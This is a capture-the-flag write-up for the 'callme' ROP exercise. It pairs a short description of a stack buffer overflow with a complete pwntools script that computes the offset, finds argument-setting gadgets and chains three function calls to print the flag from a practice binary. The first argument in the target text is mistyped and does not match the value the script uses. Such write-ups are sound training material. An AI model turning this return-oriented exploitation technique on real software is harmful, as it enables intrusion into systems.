 # Callme

## Target
call `callme_one`, `callme_two` and `callme_three` in this order with the following arguments: `0xdeaedbeefdeaedbeef`, `0xcafebabecafebabe` and `0xd00df00dd00df00d`.

## The vuln
A buffer overflow allows ROPchain creation and execution. By using `ropper` or similar tools is possible to find gadgets which allows to correctly set the arguments and call the functions `callme_one`, `callme_two` and `callme_three` in sequence.

## The script
```python
from pwn import *

#
# Context
#

e = context.binary = ELF('callme')
lib = ELF('libcallme.so')

#
# Offset
#

io = process(e.path)

io.sendlineafter(b'> ', cyclic(0x200))
io.wait()

core = io.corefile

io.close()
offset = cyclic_find(core.read(core.rsp, 4))
info(f'Offset: {offset}')

#
# ROP
#

# Alternative: use "ropper"
POPRDI = p64(next(e.search(asm('pop rdi; ret;'))))
POPRSI_POPRDX = p64(next(e.search(asm('pop rsi; pop rdx; ret;')))) # 0x000000000040093d

# Alternative: use objdump
CALLME_ONE   = p64(e.plt["callme_one"])
CALLME_TWO   = p64(e.plt["callme_two"])
CALLME_THREE = p64(e.plt["callme_three"])

SET_PARAMETERS  = b''
SET_PARAMETERS += POPRDI
SET_PARAMETERS += p64(0xdeadbeefdeadbeef)
SET_PARAMETERS += POPRSI_POPRDX
SET_PARAMETERS += p64(0xcafebabecafebabe)
SET_PARAMETERS += p64(0xd00df00dd00df00d)

#
# Exploit
#

io = process(e.path)

payload =  b''
payload += b'A' * offset

payload += SET_PARAMETERS
payload += CALLME_ONE

payload += SET_PARAMETERS
payload += CALLME_TWO

payload += SET_PARAMETERS
payload += CALLME_THREE

with open("payload", "wb") as fout:
    fout.write(payload)

io.sendlineafter(b'> ', payload)

info(io.recvuntil(b'}').decode())
io.close()
```